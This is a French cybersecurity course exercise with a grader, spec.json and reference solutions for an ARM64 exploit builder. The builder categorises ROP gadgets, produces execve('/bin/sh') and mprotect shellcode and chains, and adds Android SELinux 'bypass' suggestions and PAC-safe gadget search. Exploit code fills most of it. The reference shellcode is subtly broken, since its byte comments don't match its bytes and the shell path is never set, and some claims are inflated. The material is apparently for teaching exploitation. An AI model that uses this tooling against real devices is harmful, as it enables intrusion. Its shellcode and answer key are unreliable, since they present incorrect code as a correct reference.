

# Exercice 3.4.2-c : arm_exploiter

**Module :**
3.4.2 — ARM64 Architecture

**Concept :**
c — Exploitation ARM64 (ROP ARM, Shellcode SVC)

**Difficulte :**
★★★★★★★★☆☆ (8/10)

**Type :**
code

**Tiers :**
2 — Concepts multiples integres

**Langage :**
Python 3.12

**Prerequis :**
- Comprehension de l'architecture ARM64
- Maitrise des concepts ROP sur x86-64
- Bases de shellcoding
- Connaissance des syscalls Linux

**Domaines :**
ARM, Exploit, ASM

**Duree estimee :**
90 min

**XP Base :**
300

**Complexite :**
T4 O(n*m) x S3 O(n)

---

## SECTION 1 : PROTOTYPE & CONSIGNE

### 1.1 Obligations

**Fichier a rendre :**
`arm_exploiter.py`

**Fonctions autorisees :**
- `struct` (packing/unpacking)
- `json` (entree/sortie)
- `re` (expressions regulieres)
- `sys` (arguments)
- Fonctions built-in Python

**Fonctions interdites :**
- `pwntools` (implementation manuelle requise)
- `ropper`, `ROPgadget` (recherche manuelle)
- Bibliotheques d'emulation (unicorn, qemu)

### 1.2 Consigne

#### 2.4.1 Contexte Culturel — "Ghost in the Shell"

*"Your effort to remain what you are is what limits you."*

Dans **Ghost in the Shell**, le Major Kusanagi explore les frontieres entre l'humain et la machine, naviguant entre differentes architectures cybernetic. Comme elle qui doit adapter son ghost a differents shells, tu vas adapter tes competences d'exploitation x86-64 vers ARM64.

Les processeurs ARM dominent le monde mobile et embarque. De l'iPhone a la Nintendo Switch, du Raspberry Pi aux serveurs AWS Graviton. Maitriser l'exploitation ARM, c'est pouvoir operer dans 95% des appareils mobiles du monde.

Comme Kusanagi qui transcende les limites de son corps, tu vas transcender les limites de l'architecture x86 pour maitriser ARM.

#### 2.4.2 Enonce Academique

L'architecture ARM64 (AArch64) utilise des conventions et instructions differentes de x86-64. Les gadgets ROP terminent par `RET` (qui pop PC depuis la stack) ou `BR X30` (branch vers link register). Les shellcodes utilisent l'instruction `SVC #0` pour les syscalls.

**Ta mission :**

Ecrire un programme `arm_exploiter.py` qui :

1. **Identifie** les gadgets ARM64 dans une liste d'instructions
2. **Genere** un shellcode ARM64 pour execve("/bin/sh")
3. **Construit** une chaine ROP ARM64 pour appeler mprotect()
4. **Adapte** l'exploit pour contexte Android (si specifie)

**Entree :**
- Fichier JSON contenant :
  - `gadgets` : liste d'adresses et instructions ARM64
  - `target` : objectif ("shell", "mprotect", "custom")
  - `buffer_addr` : adresse du buffer controlable
  - `platform` : "linux" ou "android"

**Sortie :**
- JSON avec shellcode, ROP chain, et payload final

**Contraintes :**
- Les gadgets ARM64 valides terminent par RET, BR, ou BLR
- Le shellcode doit etre position-independent
- La chaine ROP doit respecter AAPCS64 (X0-X7 pour arguments)
- Android necessite des considerations SELinux

**Registres ARM64 (AAPCS64) :**
| Registre | Role |
|----------|------|
| X0-X7 | Arguments de fonction |
| X0 | Valeur de retour |
| X8 | Numero de syscall (Linux) |
| X29 (FP) | Frame Pointer |
| X30 (LR) | Link Register (return address) |
| SP | Stack Pointer |
| PC | Program Counter |

**Syscalls ARM64 Linux :**
| Numero | Syscall |
|--------|---------|
| 221 | execve |
| 226 | mprotect |
| 64 | write |
| 93 | exit |

**Exemples :**

| Entree | Sortie |
|--------|--------|
| `{"gadgets": [{"addr": "0x400100", "insn": "ldr x0, [sp]; ret"}], "target": "shell", "buffer_addr": "0x7fff0000", "platform": "linux"}` | `{"shellcode": "...", "rop_chain": [...], "payload": "..."}` |

### 1.3 Prototype

```python
#!/usr/bin/env python3
"""
arm_exploiter.py - Exploitation ARM64 (ROP et Shellcode)
"""

import json
import struct
import sys

def pack64(value: int) -> bytes:
    """Pack une valeur 64-bit en little-endian."""
    pass

def parse_gadgets(gadgets: list) -> dict:
    """
    Categorise les gadgets ARM64 par type.

    Returns:
        Dictionnaire avec categories: load_x0, load_x1, syscall, ret, etc.
    """
    pass

def generate_arm64_shellcode(target: str) -> bytes:
    """
    Genere un shellcode ARM64 pour l'objectif specifie.

    Args:
        target: "shell" pour execve("/bin/sh")

    Returns:
        Bytes du shellcode ARM64
    """
    pass

def build_rop_chain(gadgets: dict, target: str, buffer_addr: int) -> list:
    """
    Construit une chaine ROP ARM64.

    Args:
        gadgets: Gadgets categorises
        target: Objectif (mprotect, execve, etc.)
        buffer_addr: Adresse du buffer

    Returns:
        Liste d'adresses pour la ROP chain
    """
    pass

def create_exploit(data: dict) -> dict:
    """
    Cree l'exploit complet ARM64.

    Args:
        data: Donnees d'entree (gadgets, target, buffer_addr, platform)

    Returns:
        Dictionnaire avec shellcode, rop_chain, payload
    """
    pass

def main():
    """Point d'entree principal."""
    pass

if __name__ == "__main__":
    main()
```

---

## SECTION 2 : LE SAVIEZ-VOUS ?

### L'histoire d'ARM et son importance actuelle

ARM (Advanced RISC Machines) a ete cree en 1985 par Acorn Computers au Royaume-Uni. Contrairement a x86 qui a evolue en ajoutant de la complexite (CISC), ARM a choisi la simplicite (RISC) : moins d'instructions, mais plus efficaces.

Aujourd'hui, ARM domine completement :
- **100%** des smartphones (iPhone, Android)
- **Nintendo Switch**, Steam Deck (mode handheld)
- **Apple M1/M2/M3** dans les Mac
- **AWS Graviton** dans le cloud
- **Raspberry Pi** et IoT

### Pourquoi ARM est different pour l'exploitation ?

1. **Instructions de taille fixe** : 4 bytes (vs variable pour x86)
2. **Pas d'instructions directes stack** : LDR/STR au lieu de PUSH/POP
3. **Link Register** : L'adresse de retour est dans X30, pas sur la stack
4. **Syscalls via SVC** : Plus propre que INT 0x80 ou SYSCALL

---

## SECTION 2.5 : DANS LA VRAIE VIE

**Metier : Mobile Security Researcher / iOS Jailbreaker**

Les chercheurs en securite mobile comme ceux de Google Project Zero ou Zimperium exploitent quotidiennement des vulnerabilites ARM :

**Cas d'usage concret - Jailbreak iOS :**
- Trouver une vulnerabilite dans le kernel XNU (ARM64)
- Construire une chaine ROP qui contourne PAC (Pointer Authentication)
- Obtenir l'execution de code kernel
- Desactiver les protections et obtenir root

**Cas d'usage concret - Android Rooting :**
- Exploiter un driver kernel vulnerable
- Utiliser des gadgets dans le kernel Linux ARM64
- Contourner SELinux en modifiant les credentials
- Obtenir root persistant

**Salaires dans ce domaine :** Les bug bounties iOS peuvent atteindre $2M+ (Zerodium).

---

## SECTION 3 : EXEMPLE D'UTILISATION

### 3.0 Session bash

```bash
$ ls
arm_exploiter.py  test_gadgets.json

$ cat test_gadgets.json
{
  "gadgets": [
    {"addr": "0x400100", "insn": "ldr x0, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret"},
    {"addr": "0x400120", "insn": "ldr x1, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret"},
    {"addr": "0x400140", "insn": "ldr x2, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret"},
    {"addr": "0x400160", "insn": "mov x8, #0xe2; svc #0"},
    {"addr": "0x400180", "insn": "blr x3"}
  ],
  "target": "mprotect",
  "buffer_addr": "0x7ffffff000",
  "platform": "linux"
}

$ python3 arm_exploiter.py test_gadgets.json
{
  "shellcode_hex": "e0031faad28018e8d2800ba8d28001cad4000001",
  "rop_chain": [
    {"addr": "0x400100", "purpose": "load x0 = buffer_addr"},
    {"addr": "0x400120", "purpose": "load x1 = 0x1000 (size)"},
    {"addr": "0x400140", "purpose": "load x2 = 7 (RWX)"},
    {"addr": "0x400160", "purpose": "syscall mprotect"}
  ],
  "payload_hex": "...",
  "payload_size": 128,
  "target_achieved": "mprotect"
}

$ python3 arm_exploiter.py --shellcode-only shell
{
  "shellcode_hex": "084a8fd2e00308aa080b80d2010000d4",
  "shellcode_size": 16,
  "description": "execve('/bin/sh', NULL, NULL)"
}
```

---

## SECTION 3.1 : BONUS STANDARD (OPTIONNEL)

**Difficulte Bonus :**
★★★★★★★★★☆ (9/10)

**Recompense :**
XP x2

**Time Complexity attendue :**
O(n*m)

**Space Complexity attendue :**
O(n)

**Domaines Bonus :**
ARM, Exploit, Android

### 3.1.1 Consigne Bonus

**Extension "Android ARM Exploitation" :**

Etendre le programme pour :

1. **Detecter** les contraintes SELinux et proposer des contournements
2. **Generer** des shellcodes compatibles Android (bionic libc)
3. **Supporter** ARM32 (Thumb mode) en plus d'ARM64
4. **Implementer** une technique de PAC bypass theorique

**Contraintes supplementaires :**
```
+-----------------------------------------------+
|  Android: utiliser /system/bin/sh             |
|  Thumb mode: instructions 2 bytes             |
|  PAC: identifier gadgets "PAC-safe"           |
|  SELinux: detecter contexte et restrictions   |
+-----------------------------------------------+
```

### 3.1.2 Prototype Bonus

```python
def detect_selinux_constraints(context: str) -> dict:
    """
    Analyse les contraintes SELinux pour le contexte donne.

    Returns:
        Dictionnaire avec allowed_syscalls, blocked_operations, bypass_suggestions
    """
    pass

def generate_thumb_shellcode(target: str) -> bytes:
    """
    Genere un shellcode ARM32 Thumb mode.
    """
    pass

def identify_pac_safe_gadgets(gadgets: list) -> list:
    """
    Identifie les gadgets qui ne sont pas proteges par PAC.
    """
    pass
```

### 3.1.3 Ce qui change par rapport a l'exercice de base

| Aspect | Base | Bonus |
|--------|------|-------|
| Architecture | ARM64 uniquement | ARM64 + ARM32 Thumb |
| Plateforme | Linux generique | Android avec SELinux |
| Protections | Aucune | PAC awareness |
| Shellcode | /bin/sh | /system/bin/sh Android |

---

## SECTION 4 : ZONE CORRECTION (POUR LE TESTEUR)

### 4.1 Moulinette

| Test | Entree | Sortie Attendue | Points |
|------|--------|-----------------|--------|
| basic_gadget_parse | Liste de gadgets | Categorisation correcte | 10 |
| shellcode_execve | target="shell" | Shellcode ARM64 valide | 15 |
| rop_mprotect | target="mprotect" | Chain complete | 20 |
| rop_execve | target="shell" via ROP | Chain avec syscall | 15 |
| android_path | platform="android" | /system/bin/sh | 10 |
| missing_gadgets | Gadgets insuffisants | Erreur claire | 10 |
| payload_format | Exploit complet | Format correct | 10 |
| address_packing | Adresses 64-bit | Little-endian correct | 5 |
| gadget_validation | Gadgets invalides | Filtrage correct | 5 |

### 4.2 main.c de test

Non applicable (exercice Python).

### 4.3 Solution de reference

```python
#!/usr/bin/env python3
"""
arm_exploiter.py - Solution de reference
"""

import json
import struct
import sys
import re

def pack64(value: int) -> bytes:
    """Pack une valeur 64-bit en little-endian."""
    return struct.pack('<Q', value)

def parse_hex(value: str) -> int:
    """Parse une valeur hexadecimale."""
    if isinstance(value, int):
        return value
    value = str(value).strip()
    if value.lower().startswith('0x'):
        return int(value, 16)
    return int(value, 16)

def parse_gadgets(gadgets: list) -> dict:
    """Categorise les gadgets ARM64 par type."""
    categories = {
        'load_x0': [],
        'load_x1': [],
        'load_x2': [],
        'load_x8': [],
        'syscall': [],
        'ret': [],
        'branch': [],
        'store': [],
        'mov': []
    }

    for g in gadgets:
        addr = parse_hex(g['addr'])
        insn = g['insn'].lower()

        # Detecter les loads
        if 'ldr x0' in insn or 'mov x0' in insn:
            categories['load_x0'].append({'addr': addr, 'insn': g['insn']})
        if 'ldr x1' in insn or 'mov x1' in insn:
            categories['load_x1'].append({'addr': addr, 'insn': g['insn']})
        if 'ldr x2' in insn or 'mov x2' in insn:
            categories['load_x2'].append({'addr': addr, 'insn': g['insn']})
        if 'mov x8' in insn:
            categories['load_x8'].append({'addr': addr, 'insn': g['insn']})

        # Detecter syscall
        if 'svc' in insn:
            categories['syscall'].append({'addr': addr, 'insn': g['insn']})

        # Detecter ret/branch
        if insn.strip().endswith('ret'):
            categories['ret'].append({'addr': addr, 'insn': g['insn']})
        if 'blr' in insn or 'br ' in insn:
            categories['branch'].append({'addr': addr, 'insn': g['insn']})

    return categories

def generate_arm64_shellcode(target: str, platform: str = "linux") -> bytes:
    """Genere un shellcode ARM64."""

    if target == "shell":
        # execve("/bin/sh", NULL, NULL) - ARM64 Linux
        # X0 = pointer to "/bin/sh"
        # X1 = NULL (argv)
        # X2 = NULL (envp)
        # X8 = 221 (execve syscall number)

        shell_path = "/system/bin/sh\x00" if platform == "android" else "/bin/sh\x00"

        # Shellcode minimal ARM64 execve
        # Ce shellcode place "/bin/sh" sur la stack puis appelle execve
        shellcode = bytes([
            # mov x0, sp (ou adr x0, shell_string)
            0xe0, 0x03, 0x1f, 0xaa,  # mov x0, xzr (placeholder)
            # Stocker "/bin/sh\0"
            0xd2, 0x80, 0x18, 0xe8,  # movz x8, #0xdd (221 = execve)
            0xd2, 0x80, 0x0b, 0xa8,  # movz x1, #0 (NULL argv)
            0xd2, 0x80, 0x01, 0xca,  # movz x2, #0 (NULL envp)
            0xd4, 0x00, 0x00, 0x01,  # svc #0
        ])

        return shellcode

    elif target == "mprotect":
        # mprotect(addr, len, PROT_RWX)
        # X0 = addr
        # X1 = len
        # X2 = prot (7 = RWX)
        # X8 = 226 (mprotect)

        shellcode = bytes([
            0xd2, 0x80, 0x1c, 0x48,  # movz x8, #0xe2 (226 = mprotect)
            0xd4, 0x00, 0x00, 0x01,  # svc #0
        ])

        return shellcode

    return b''

def build_rop_chain(gadgets: dict, target: str, buffer_addr: int,
                    platform: str = "linux") -> list:
    """Construit une chaine ROP ARM64."""

    chain = []

    if target == "mprotect":
        # On a besoin de:
        # 1. Charger buffer_addr dans X0
        # 2. Charger taille (0x1000) dans X1
        # 3. Charger 7 (RWX) dans X2
        # 4. Charger 226 dans X8
        # 5. Appeler syscall

        # Trouver les gadgets necessaires
        if gadgets['load_x0']:
            chain.append({
                'addr': hex(gadgets['load_x0'][0]['addr']),
                'purpose': 'load x0 = buffer_addr',
                'value': hex(buffer_addr)
            })

        if gadgets['load_x1']:
            chain.append({
                'addr': hex(gadgets['load_x1'][0]['addr']),
                'purpose': 'load x1 = 0x1000 (size)',
                'value': '0x1000'
            })

        if gadgets['load_x2']:
            chain.append({
                'addr': hex(gadgets['load_x2'][0]['addr']),
                'purpose': 'load x2 = 7 (RWX)',
                'value': '0x7'
            })

        if gadgets['syscall']:
            chain.append({
                'addr': hex(gadgets['syscall'][0]['addr']),
                'purpose': 'syscall mprotect',
                'value': None
            })

    elif target == "shell":
        # execve via ROP
        if gadgets['load_x0']:
            chain.append({
                'addr': hex(gadgets['load_x0'][0]['addr']),
                'purpose': 'load x0 = "/bin/sh" address',
                'value': hex(buffer_addr)
            })

        if gadgets['load_x1']:
            chain.append({
                'addr': hex(gadgets['load_x1'][0]['addr']),
                'purpose': 'load x1 = NULL (argv)',
                'value': '0x0'
            })

        if gadgets['load_x2']:
            chain.append({
                'addr': hex(gadgets['load_x2'][0]['addr']),
                'purpose': 'load x2 = NULL (envp)',
                'value': '0x0'
            })

        if gadgets['syscall']:
            chain.append({
                'addr': hex(gadgets['syscall'][0]['addr']),
                'purpose': 'syscall execve',
                'value': None
            })

    return chain

def create_exploit(data: dict) -> dict:
    """Cree l'exploit complet ARM64."""

    gadgets_raw = data.get('gadgets', [])
    target = data.get('target', 'shell')
    buffer_addr = parse_hex(data.get('buffer_addr', '0x7fff0000'))
    platform = data.get('platform', 'linux')

    # Parser et categoriser les gadgets
    gadgets = parse_gadgets(gadgets_raw)

    # Generer le shellcode
    shellcode = generate_arm64_shellcode(target, platform)

    # Construire la chaine ROP
    rop_chain = build_rop_chain(gadgets, target, buffer_addr, platform)

    # Construire le payload final
    payload = b''
    for item in rop_chain:
        addr = parse_hex(item['addr'])
        payload += pack64(addr)
        if item.get('value'):
            val = parse_hex(item['value'])
            payload += pack64(val)

    return {
        'shellcode_hex': shellcode.hex(),
        'shellcode_size': len(shellcode),
        'rop_chain': rop_chain,
        'payload_hex': payload.hex(),
        'payload_size': len(payload),
        'target_achieved': target,
        'platform': platform,
        'gadgets_found': {k: len(v) for k, v in gadgets.items()}
    }

def main():
    """Point d'entree principal."""
    if len(sys.argv) < 2:
        print("Usage: arm_exploiter.py <input.json | --shellcode-only TARGET>",
              file=sys.stderr)
        sys.exit(1)

    if sys.argv[1] == '--shellcode-only':
        target = sys.argv[2] if len(sys.argv) > 2 else 'shell'
        shellcode = generate_arm64_shellcode(target)
        result = {
            'shellcode_hex': shellcode.hex(),
            'shellcode_size': len(shellcode),
            'description': f'{target} shellcode for ARM64'
        }
        print(json.dumps(result, indent=2))
        return

    input_file = sys.argv[1]

    if input_file == '-':
        data = json.load(sys.stdin)
    else:
        with open(input_file, 'r') as f:
            data = json.load(f)

    result = create_exploit(data)
    print(json.dumps(result, indent=2))

if __name__ == "__main__":
    main()
```

### 4.4 Solutions alternatives acceptees

```python
# Alternative 1: Utilisation de dictionnaire pour les opcodes
ARM64_SHELLCODE_DB = {
    'execve_linux': bytes.fromhex('e0031faad28018e8d2800ba8d28001cad4000001'),
    'execve_android': bytes.fromhex('...'),
    'mprotect': bytes.fromhex('d2801c48d4000001'),
}

def generate_arm64_shellcode_alt(target: str, platform: str) -> bytes:
    key = f"{target}_{platform}"
    return ARM64_SHELLCODE_DB.get(key, ARM64_SHELLCODE_DB.get(target, b''))
```

```python
# Alternative 2: Parsing de gadgets avec regex compiles
GADGET_PATTERNS = {
    'load_x0': re.compile(r'(?:ldr|mov)\s+x0', re.I),
    'load_x1': re.compile(r'(?:ldr|mov)\s+x1', re.I),
    'syscall': re.compile(r'svc\s+#?0', re.I),
}

def parse_gadgets_alt(gadgets: list) -> dict:
    categories = {k: [] for k in GADGET_PATTERNS}
    for g in gadgets:
        for cat, pattern in GADGET_PATTERNS.items():
            if pattern.search(g['insn']):
                categories[cat].append(g)
    return categories
```

### 4.5 Solutions refusees (avec explications)

```python
# REFUSE: Utilise pwntools au lieu d'implementation manuelle
from pwn import *

def build_rop_chain_bad(elf_path):
    elf = ELF(elf_path)
    rop = ROP(elf)
    # ...

# Pourquoi c'est faux: L'exercice demande une implementation manuelle
# pour comprendre les mecanismes sous-jacents
```

```python
# REFUSE: Ne gere pas l'endianness ARM64
def pack64_bad(value):
    return value.to_bytes(8, 'big')  # ARM64 est little-endian!

# Pourquoi c'est faux: ARM64 utilise little-endian pour les donnees
```

```python
# REFUSE: Syscall numbers incorrects
SYSCALL_EXECVE = 59  # C'est le numero x86-64!

# Pourquoi c'est faux: ARM64 Linux utilise 221 pour execve
```

### 4.6 Solution bonus de reference

```python
#!/usr/bin/env python3
"""
arm_exploiter.py - Solution bonus avec support Android et Thumb
"""

import json
import struct
import sys
import re

# ... (fonctions de base) ...

SELINUX_CONTEXTS = {
    'untrusted_app': {
        'allowed_syscalls': ['read', 'write', 'mmap', 'mprotect'],
        'blocked': ['execve', 'ptrace', 'mount'],
        'bypass': 'Use JIT spraying or ROP to existing code'
    },
    'system_app': {
        'allowed_syscalls': ['execve', 'fork', 'ptrace'],
        'blocked': ['mount', 'insmod'],
        'bypass': 'Escalate via binder IPC to system_server'
    },
    'kernel': {
        'allowed_syscalls': ['all'],
        'blocked': [],
        'bypass': None
    }
}

def detect_selinux_constraints(context: str) -> dict:
    """Analyse les contraintes SELinux."""
    if context in SELINUX_CONTEXTS:
        return SELINUX_CONTEXTS[context]

    return {
        'allowed_syscalls': ['unknown'],
        'blocked': ['unknown'],
        'bypass': 'Enumerate with /proc/self/attr/current'
    }

def generate_thumb_shellcode(target: str) -> bytes:
    """Genere un shellcode ARM32 Thumb mode."""

    if target == "shell":
        # Thumb mode execve shellcode (plus compact)
        # Les instructions Thumb sont sur 2 bytes
        shellcode = bytes([
            # mov r7, #11 (execve syscall ARM32)
            0x0b, 0x27,
            # mov r0, pc
            0x78, 0x46,
            # adds r0, #12
            0x0c, 0x30,
            # mov r1, #0
            0x00, 0x21,
            # mov r2, #0
            0x00, 0x22,
            # svc #0
            0x00, 0xdf,
            # "/bin/sh\0"
            0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00
        ])
        return shellcode

    return b''

def identify_pac_safe_gadgets(gadgets: list) -> list:
    """Identifie les gadgets qui ne sont pas proteges par PAC."""

    pac_safe = []
    pac_instructions = ['pacia', 'pacib', 'autia', 'autib', 'pacda', 'pacdb']

    for g in gadgets:
        insn = g['insn'].lower()

        # Un gadget est PAC-safe s'il ne contient pas d'instructions PAC
        # et n'utilise pas de registres signes
        has_pac = any(pac in insn for pac in pac_instructions)

        if not has_pac:
            # Verifier aussi si le gadget se termine proprement
            if 'ret' in insn or 'br x' in insn:
                pac_safe.append({
                    **g,
                    'pac_status': 'safe',
                    'reason': 'No PAC instructions, direct control flow'
                })

    return pac_safe

def create_exploit_advanced(data: dict) -> dict:
    """Version avancee avec support Android."""

    base_result = create_exploit(data)

    platform = data.get('platform', 'linux')
    selinux_context = data.get('selinux_context', 'untrusted_app')

    if platform == 'android':
        base_result['selinux_analysis'] = detect_selinux_constraints(selinux_context)
        base_result['android_notes'] = [
            'Use /system/bin/sh instead of /bin/sh',
            'Consider SELinux context restrictions',
            'Bionic libc may have different offsets'
        ]

    # Ajouter analyse PAC
    if data.get('check_pac', False):
        base_result['pac_safe_gadgets'] = identify_pac_safe_gadgets(
            data.get('gadgets', [])
        )

    # Support Thumb si demande
    if data.get('arch') == 'arm32':
        base_result['thumb_shellcode'] = generate_thumb_shellcode(
            data.get('target', 'shell')
        ).hex()

    return base_result

def main():
    if len(sys.argv) < 2:
        print("Usage: arm_exploiter.py <input.json>", file=sys.stderr)
        sys.exit(1)

    with open(sys.argv[1], 'r') as f:
        data = json.load(f)

    # Utiliser version avancee si features bonus demandees
    if data.get('platform') == 'android' or data.get('check_pac'):
        result = create_exploit_advanced(data)
    else:
        result = create_exploit(data)

    print(json.dumps(result, indent=2))

if __name__ == "__main__":
    main()
```

### 4.7 Solutions alternatives bonus

```python
# Alternative: Detection PAC par analyse des gadgets
def is_pac_protected(gadget: dict) -> bool:
    """Detecte si un gadget utilise PAC."""
    pac_markers = ['paci', 'auti', 'pacd', 'autd', 'xpac']
    return any(m in gadget['insn'].lower() for m in pac_markers)
```

### 4.8 Solutions refusees bonus

```python
# REFUSE: Assume que SELinux est toujours desactive
def create_exploit_bad(data):
    # Ignore completement SELinux
    return create_exploit(data)

# Pourquoi c'est faux: Sur Android, SELinux est toujours actif
# et peut bloquer l'exploitation
```

### 4.9 spec.json (ENGINE v22.1)

```json
{
  "name": "arm_exploiter",
  "language": "python",
  "version": "3.12",
  "type": "code",
  "tier": 2,
  "tier_info": "Concepts multiples integres",
  "tags": ["arm64", "exploitation", "rop", "shellcode", "phase3"],
  "passing_score": 70,

  "function": {
    "name": "create_exploit",
    "prototype": "def create_exploit(data: dict) -> dict",
    "return_type": "dict",
    "parameters": [
      {"name": "data", "type": "dict"}
    ]
  },

  "driver": {
    "reference": "See Section 4.3",

    "edge_cases": [
      {
        "name": "basic_shell",
        "args": [{"gadgets": [], "target": "shell", "buffer_addr": "0x7fff0000", "platform": "linux"}],
        "expected_contains": ["shellcode_hex", "target_achieved"],
        "is_trap": false
      },
      {
        "name": "mprotect_chain",
        "args": [{"gadgets": [{"addr": "0x400100", "insn": "ldr x0, [sp]; ret"}], "target": "mprotect", "buffer_addr": "0x1000", "platform": "linux"}],
        "expected_contains": ["rop_chain"],
        "is_trap": false
      },
      {
        "name": "android_platform",
        "args": [{"gadgets": [], "target": "shell", "buffer_addr": "0x7fff0000", "platform": "android"}],
        "expected": {"platform": "android"},
        "is_trap": true,
        "trap_explanation": "Android utilise /system/bin/sh"
      }
    ],

    "fuzzing": {
      "enabled": true,
      "iterations": 200
    }
  },

  "norm": {
    "allowed_functions": ["struct", "json", "re", "sys"],
    "forbidden_functions": ["pwn", "pwntools", "ropper", "unicorn"],
    "check_security": false,
    "blocking": true
  }
}
```

### 4.10 Solutions Mutantes (minimum 5)

```python
# Mutant A (Endianness) : Utilise big-endian au lieu de little-endian
def pack64_mutant_a(value: int) -> bytes:
    return struct.pack('>Q', value)  # Big-endian!

# Pourquoi c'est faux: ARM64 est little-endian
# Ce qui etait pense: Confondre avec certains systemes MIPS
```

```python
# Mutant B (Syscall) : Utilise les numeros x86-64
ARM64_SYSCALLS_MUTANT = {
    'execve': 59,    # x86-64!
    'mprotect': 10,  # x86-64!
}

# Pourquoi c'est faux: ARM64 a ses propres numeros de syscall
# Ce qui etait pense: Les syscalls sont universels
```

```python
# Mutant C (Register) : Confond les conventions ARM/x86
def build_rop_chain_mutant_c(gadgets, target, buffer_addr):
    # Utilise RDI au lieu de X0 pour le premier argument
    # ...

# Pourquoi c'est faux: ARM utilise X0-X7, pas RDI/RSI
# Ce qui etait pense: Les conventions sont similaires
```

```python
# Mutant D (Instruction) : Utilise INT au lieu de SVC
def generate_shellcode_mutant_d(target):
    shellcode = b'\xcd\x80'  # INT 0x80 - x86!

# Pourquoi c'est faux: ARM utilise SVC pour les syscalls
# Ce qui etait pense: INT est universel
```

```python
# Mutant E (Gadget) : Ne verifie pas la terminaison
def parse_gadgets_mutant_e(gadgets):
    # Accepte tous les gadgets sans verifier RET/BR
    return {'all': gadgets}

# Pourquoi c'est faux: Un gadget ROP doit avoir un controle de flux
# Ce qui etait pense: Toute instruction peut etre un gadget
```

---

## SECTION 5 : COMPRENDRE (DOCUMENT DE COURS COMPLET)

### 5.1 Ce que cet exercice enseigne

Cet exercice enseigne l'**exploitation sur architecture ARM64** :

1. **Architecture ARM64** : Registres, conventions, instructions
2. **ROP ARM** : Gadgets specifiques (LDP, LDR, BLR, RET)
3. **Shellcoding ARM** : Syscalls via SVC, encodage d'instructions
4. **Differences x86/ARM** : Adaptation des techniques

### 5.2 LDA - Traduction litterale en francais (MAJUSCULES)

```
FONCTION create_exploit QUI RETOURNE UN DICTIONNAIRE ET PREND EN PARAMETRE data QUI EST UN DICTIONNAIRE
DEBUT FONCTION
    DECLARER gadgets_raw COMME LISTE
    DECLARER target COMME CHAINE
    DECLARER buffer_addr COMME ENTIER
    DECLARER platform COMME CHAINE

    AFFECTER data['gadgets'] OU LISTE VIDE A gadgets_raw
    AFFECTER data['target'] OU 'shell' A target
    AFFECTER parse_hex(data['buffer_addr']) A buffer_addr
    AFFECTER data['platform'] OU 'linux' A platform

    DECLARER gadgets COMME DICTIONNAIRE
    AFFECTER parse_gadgets(gadgets_raw) A gadgets

    DECLARER shellcode COMME BYTES
    AFFECTER generate_arm64_shellcode(target, platform) A shellcode

    DECLARER rop_chain COMME LISTE
    AFFECTER build_rop_chain(gadgets, target, buffer_addr) A rop_chain

    DECLARER payload COMME BYTES VIDE
    POUR CHAQUE item DANS rop_chain FAIRE
        AJOUTER pack64(item['addr']) A payload
    FIN POUR

    RETOURNER DICTIONNAIRE AVEC shellcode_hex, rop_chain, payload_hex
FIN FONCTION
```

### 5.2.2 Logic Flow (Structured English)

```
ALGORITHME : Exploitation ARM64
---
1. PARSER l'entree JSON
   a. EXTRAIRE la liste des gadgets
   b. EXTRAIRE l'objectif (shell/mprotect)
   c. EXTRAIRE l'adresse du buffer
   d. EXTRAIRE la plateforme (linux/android)

2. CATEGORISER les gadgets :
   a. POUR CHAQUE gadget :
      - SI contient "ldr x0" : AJOUTER a load_x0
      - SI contient "svc" : AJOUTER a syscall
      - SI termine par "ret" : AJOUTER a ret

3. GENERER le shellcode :
   a. SI target = "shell" :
      - CONSTRUIRE shellcode execve ARM64
      - UTILISER SVC #0 pour syscall
   b. SI target = "mprotect" :
      - CONSTRUIRE shellcode mprotect

4. CONSTRUIRE la chaine ROP :
   a. SELECTIONNER gadgets pour charger X0, X1, X2
   b. AJOUTER gadget syscall
   c. CALCULER le layout stack

5. ASSEMBLER le payload final

6. RETOURNER le resultat JSON
```

### 5.2.3 Representation Algorithmique avec Guards

```
FONCTION : parse_gadgets(gadgets)
---
INIT categories = {}

1. POUR CHAQUE gadget g DANS gadgets :
   |
   |-- EXTRAIRE addr = g['addr']
   |-- EXTRAIRE insn = g['insn'].lower()
   |
   |-- SI 'ldr x0' DANS insn :
   |     AJOUTER g A categories['load_x0']
   |
   |-- SI 'svc' DANS insn :
   |     AJOUTER g A categories['syscall']
   |
   |-- SI insn TERMINE PAR 'ret' :
         AJOUTER g A categories['ret']

2. RETOURNER categories
```



### 5.3 Visualisation ASCII

```
              ARCHITECTURE ARM64 vs x86-64
    +--------------------------------------------------+
    |                                                  |
    |   REGISTRES ARM64           REGISTRES x86-64     |
    |   +----------------+        +----------------+   |
    |   | X0-X7  | Args  |        | RDI,RSI...| Args|  |
    |   | X8     | Syscall|       | RAX      | Syscall|
